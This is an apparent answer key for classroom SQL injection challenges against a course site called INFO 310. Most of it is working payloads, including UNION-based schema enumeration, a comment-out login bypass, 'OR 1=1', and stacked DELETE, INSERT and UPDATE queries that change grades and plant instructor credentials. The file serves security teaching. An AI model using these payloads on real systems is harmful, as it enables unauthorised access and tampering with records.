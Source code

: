 # SQL Injection Challenges SOLUTIONS

## 1. Use the INFO 310 site to see Alice's grade.

1. First, we need to find the name of the database:

```
' UNION SELECT 1,2,3,database();-- 
```
2. Next, we can find the name of all tables in this database:

```
' UNION SELECT 1,2,3,table_name FROM information_schema.TABLES WHERE table_schema='<database_name>';-- 
```

3. Now, we can look for the column names of the table of interest. This will allow us to search by elements other than student ID.

```
' UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```
4. Finally, you can view a specific entry in the table based on a column variable.

```
' OR <column_name> = <variable>;-- 
```

---

## 2. Use the instructor portal to make an announcement as Dr. Reifers that class is cancelled on Wednesday.

1. We can log in as an instructor by entering their email and ending our query there. This will then allow us to login without a password.

```
<instructor email>';-- 
```

2. Enter any text for the password and you can login!

### OR

1. You can use the classic 1=1 injection in place of an email. This will allow you to login with the first credentials listed in the SQL table.

```
' OR 1=1;-- 
```

2. Enter any text for the password and you can login!

---

## 3. Change your grade in the gradebook to a 4.0.

1. Use can use `UPDATE` to change entries in a specific table:

```
UPDATE <gradebook> SET <column_name> = <value> WHERE <other_column_name> = <other_value>;-- 
```
### OR

1. Use `DELETE` to remove a current entry with a specific column value.

```
'); DELETE FROM <table_name> WHERE <column_name> = <value>;-- 
```

2. Now, you can use `INSERT` to add a new entry with your updated grade. Make sure you also add all the other appropriate variables for all columns in the table.

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>, <column_name_4>) VALUES (<value_1>, <value_2>, <value_3>, <value_4>);-- 
```

--- 

## 4. Give yourself instructor level privledges and make an announcement **as Bob** letting everyone know you hacked the INFO 310 website.

1. Find the column names for the login credential table the same way we did in the first challenge:

```
UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```

2. Use `INSERT` to add an entry with your own credentials:

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>) VALUES (<value_1>, <value_2>, <value_3>);-- 
```
3. Login with your newly created credentials and post an announcement!
